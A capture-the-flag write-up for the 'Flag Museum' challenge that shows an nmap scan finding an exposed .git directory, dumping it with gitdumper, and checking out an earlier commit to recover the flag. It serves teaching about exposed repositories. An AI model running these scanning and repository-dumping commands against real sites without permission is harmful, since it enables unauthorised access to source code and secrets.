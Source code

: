 # Flag Museum

**Points**: 75

http://pwn.osucyber.club:13375/

The flag museum recently took their flags "off exhibit". Can you recover them?

### Solution

```sh
$ nmap -v -A pwn.osucyber.club -Pn -p13370-13380
...
13375/tcp open     http    nginx 1.17.9
| http-git:
|   3.136.13.55:13375/.git/
|     Git repository found!
|     .git/config matched patterns 'user'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: flags are off-exhibit
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.17.9
|_http-title: Site doesn't have a title (text/html).
...
```

Using `gitdumper` from [GitTools](https://github.com/internetwache/GitTools),
we can recover the whole git repository.
```sh
bash gitdumper.sh http://3.136.13.55:13375/.git/ ~/Programs/osu-ctf-2020-spring/clone
```

Running `git log`
```git
$ git log
commit 8de0c52a190448900fa4445ec0f2020a504a224a (HEAD)
Author: super secure coder <haxx0r@osu.edu>
Date:   Sun Mar 22 17:28:34 2020 -0400

    flags are now on exhibit

commit f2e86a8f83881fb18a5742b484b183d1fc5115fc
Author: super secure coder <haxx0r@osu.edu>
Date:   Sun Mar 22 17:25:36 2020 -0400

    Initial commit

```

Then `git checkout HEAD~1` gives us `index.html`:
```html
<html>
<body>
<h1>Flag Museum</h1>
<p>We currently have one flag on exhibit</p>
<p>osuctf{dont_keep_secrets_in_git_and_dont_expose_the_repo_on_your_website}</p>
</body>
</html>
```
